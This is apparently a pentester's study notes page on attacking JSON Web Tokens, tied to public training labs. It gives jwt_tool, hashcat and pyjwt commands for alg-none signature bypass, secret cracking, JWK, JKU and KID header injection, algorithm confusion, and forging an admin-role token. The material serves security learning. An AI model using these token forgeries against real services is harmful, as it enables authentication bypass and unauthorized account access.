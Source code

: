 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![jwt](../../../../_badges/ps-course/jwt.svg)](https://portswigger.net/web-security/jwt)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 JWT is a specification, JWS <small>(mostly)</small>/JWE are implementations.
</div></div>

<hr class="sep-both">

## JWT Tools

<div class="row row-cols-lg-2"><div>

#### jwt-tools (Python)

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(5.4k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/tools/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```
</div><div>

#### jwt.io (Website)

You can also use [jwt.io](https://jwt.io/).

<br>

#### JWT wordlists

A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).

```ps
$ wget "https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list"
```
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

#### JWT — Unverified Signature

[![jwt_unverified_signature](../../../../_badges/ps-lab/jwt/jwt_unverified_signature.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature)

It's possible for the signature to not be checked at all by the server.

```ps
$ jwt_tool 'jwt' -I -pc claim -pv value
```

<br>

#### JWT — Null Signature

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)
[![jwt_flawed_signature_verification](../../../../_badges/ps-lab/jwt/jwt_flawed_signature_verification.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)

If the signature algorithm is not verified, you may set it to 'none,' and remove the signature that is not required anymore.

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 You can use `none`, `None`, `NONE`, etc.

<br>

#### JWT — Weak Secret Key

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)
[![jwt_weak_key](../../../../_badges/ps-lab/jwt/jwt_weak_key.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -p "key" -S hs256 -I -pc claim -pv value
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

<br>

#### JWT — JWK Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_jwk_injection](../../../../_badges/ps-lab/jwt/jwt_jwk_injection.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)

An application may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -X i -T   # attack 'jwk header injection'
$ jwt_tool 'jwt' -X i -T -hc kid -hv jwt_tool  # with kid
$ jwt_tool 'jwt' -X i -I -hc kid -hv jwt_tool -pc claim -pv value
```
</div><div>

#### JWT — JKU Header Injection

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_jku_injection](../../../../_badges/ps-lab/jwt/jwt_jku_injection.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)

The `jku` header contains a URL or a filename used to fetch a key.

* When a asymmetric algorithm such as RS is used:

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -ju "URL/jwks.json" -X s -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

<br>

#### JWT — KID Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
[![jwt_unsecure_file_signature](../../../../_badges/rootme/web_server/jwt_unsecure_file_signature.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)
[![jwt_kid_path_traversal](../../../../_badges/ps-lab/jwt/jwt_kid_path_traversal.svg)](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)

The kid header may be present in two scenarios. The first one is to define which key file contains the secret. The second usage is to determines which of the keys in the `jku` we should use.

```shell!
$ # The file "/dev/null" is empty so -p is ""
$ jwt_tool "" -I -hc kid -hv "/dev/null" -S hs512 -p "" -pc claim -pv value
```

➡️ Refer to [Path Traversal](/cybersecurity/red-team/s3.exploitation/vulns/web/path_traversal.md) and my [cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) for more notes.

<br>

#### JWT — Algorithm Confusion Attack

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## Python JWT

<div class="row row-cols-lg-2"><div>

The [pyjwt](https://github.com/jpadilla/pyjwt) <small>(5.1k ⭐)</small> library can be used to manipulate JWT in Python. There are two unmaintained alternatives which are:

* [python-jwt by GehirnInc](https://github.com/GehirnInc/python-jwt) <small>(0.1k ⭐, 2022 🪦)</small>
* [python-jwt by D. Halls](https://github.com/davedoesdev/python-jwt) <small>(0.2k ⭐, 2023 🪦)</small> — has two CVEs

```py
headers = {
    'kid': '/dev/null'
}
payload = {
    'role': 'admin',
    'iat': int(datetime.datetime.now(datetime.UTC).timestamp())
}
```
</div><div>

To install it:

```shell!
$ pip install pyjwt
```

To generate a JWT:

```py
import jwt
token = jwt.encode(payload, '', algorithm='HS512', headers=headers)
```

To decode a JWT:

```py
import jwt
payload = jwt.decode(token, '', algorithms=['HS512'])
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [jwtcrack/jwt2john](https://github.com/Sjord/jwtcrack)
* `cty` (if you can bypass the signature, to try to change the content type and perform deserialization/XXE attacks)
* `x5c` (refer to related CVEs)
</div><div>

```json!
{
    "kid": "jwt_tool",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "...",
        "kid": "jwt_tool",
        "n": "..."
    }
}
```
</div></div>
